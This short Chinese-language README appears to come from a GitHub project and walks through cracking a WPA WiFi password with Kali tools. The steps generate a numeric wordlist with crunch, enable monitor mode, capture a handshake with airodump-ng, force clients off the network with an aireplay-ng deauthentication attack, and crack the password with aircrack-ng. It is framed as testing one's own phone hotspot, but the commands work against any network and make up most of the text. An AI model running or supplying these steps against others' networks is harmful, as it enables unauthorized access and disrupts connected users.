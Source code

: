 # -wifi
kali的小应用
#要求:
    一台装有kali的电脑；
    一部手机，
    一个支持监控的无线网卡(一般笔记本都支持)；
    一个强大的字典；
    人需要有时间和耐心；
#手机开热点，密码设纯数字8到10位
#准备字典
    这里我们自己建一个简单字典来用会比较快，可以验证是否成功，
    先在/etc下创建一个字典，使用crunch命令创建
      crunch 8 10 1234567890. -o /etc/zidian.txt
#首先断开连接的wifi
    在终端中执行：airmon-ng
#开启无线网卡的监控模式
    airmon-ng start wlan0
    之后网卡接口会变成wlan0mon
#查看wifi网络
    airodump-ng wlan0mon
    CH 是频道号，BSSID是网卡物理地址，ESSID是WiFi名称
    按CTRL+C结束
#抓取握手包
    目标路由CH号为 1 ，mac为 11：22：33：44：55：66
    命令airodump-ng -c 目标CH号 --bssid 目标mac -w 保存位置 wlan0mon
    airodump-ng -c 1 --bssid 11:22:33:44:55:66 -w /etc/ wlan0mon
    成功后，按CTRL+C结束
#等不到有人连WiFi，抓不到包，只能强制设备连接
    打开另一个终端，运行一下命令
    -0 是发起攻击，2 是表示断开后ping的次数，次数越多，设备重连的验证时间越长，-a 是指定路由，-c 指定断开设备 
    aireplay-ng -0 2 -a 11:22:33:44:55:66 -c 00:11:22:33:44:55 wlan0mon
#得到握手包后，可以关闭监控模式了
    airmon-ng stop wlan0mon
#开始破解密码
    aircrack-ng -w /etc/zidian.txt /etc/*.cap
